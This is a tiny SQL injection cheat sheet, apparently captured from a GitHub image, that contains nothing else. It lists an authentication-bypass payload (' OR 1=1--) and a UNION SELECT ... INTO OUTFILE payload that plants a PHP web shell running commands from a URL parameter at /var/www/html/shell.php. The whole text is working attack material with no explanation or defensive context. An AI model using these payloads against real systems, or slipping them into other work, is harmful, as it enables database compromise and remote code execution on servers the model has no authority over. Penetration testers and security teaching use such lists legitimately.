 # SQLi payloads

' OR 1=1--


## File write:
' UNION SELECT NULL,'<?php system($_GET["cmd"]); ?>',NULL,NULL,NULL into outfile '/var/www/html/shell.php'-- -